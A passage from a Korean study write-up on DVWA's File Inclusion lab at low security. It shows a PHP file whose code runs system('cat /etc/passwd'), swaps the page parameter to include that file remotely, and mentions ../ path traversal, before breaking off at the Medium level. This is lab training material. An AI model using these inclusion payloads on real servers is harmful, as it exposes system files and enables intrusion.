 터미널에서 `gedit /opt/lampp/htdocs/bad.php` 로 text 에디터 열기!

에디터에 아래와 같이 간단한 내용을 출력하게끔 내용을 추가해 주세요!

```php
<?php
	print "RIF Success!! hahahaha";
?>
```

 save 후 주소창에 쳐서 실제로 열리는지 확인하면 다음과 같이 확인!

![image](https://user-images.githubusercontent.com/53431568/125157199-77756300-e1a4-11eb-969e-294b4d210898.png)

<br>

DVWA로 돌아와서 security -> low 로 설정한 후 File Includsion 메뉴로 들어오면 아래와 같은 페이지가 열린다. 하이라이트된 주소를 주목하자.

page=include.php로 되어있는데 include.php 파일이 인클루드되어 전체 페이지를 표시하고 있는 것이다.

[file1.php] - [file2.php] - [file3.php] 이렇게 링크로 되어있는 링크를 누르면 File1에서는 id와 현제 ip주소를 출력하며, File2, File3도 각각 무엇을 실행하는지 살펴보자~

![image](https://user-images.githubusercontent.com/53431568/125157237-b2779680-e1a4-11eb-97a7-0da17b504a15.png)

현재 File includsion 페이지에서 `page=include.php` -> `page=http://127.0.0.1/bad.php` 로 바꿔서 실행하면 다음과 같이 글이 출력된다.

![image](https://user-images.githubusercontent.com/53431568/125157299-2619a380-e1a5-11eb-8059-c2c1271733b0.png)

다음은 php파일에 system이라는 명령어를 추가해본다.

```php
<?php
	print "RIF Success!! hahahaha";
	system('cat /etc/passwd');
?>
```

다시 실행한 결과이다. 난리다. etc/passwd의 내용이 출력된다.

![image](https://user-images.githubusercontent.com/53431568/125157353-7ee93c00-e1a5-11eb-9f39-5b11c2fd1d0f.png)

<br>

다음은 ../를 사용한 공격이다. 

../를 이용해 상위 디렉토리에 접근하는 것을 **`패스트래버설(path traversal) 공격`**이라고 한다.

이런식으로 허가되지 않은 파일을 다운받는 사례도 있다고 한다.. 🥵ㄷㄷ

![image](https://user-images.githubusercontent.com/53431568/125157462-15b5f880-e1a6-11eb-8ab3-8dc8f9cdb55a.png)

<br><br>

### (1) Medium level 의 경우

소스코드를 살펴보면, 입력값을 검증하는 루틴이 생겼다.
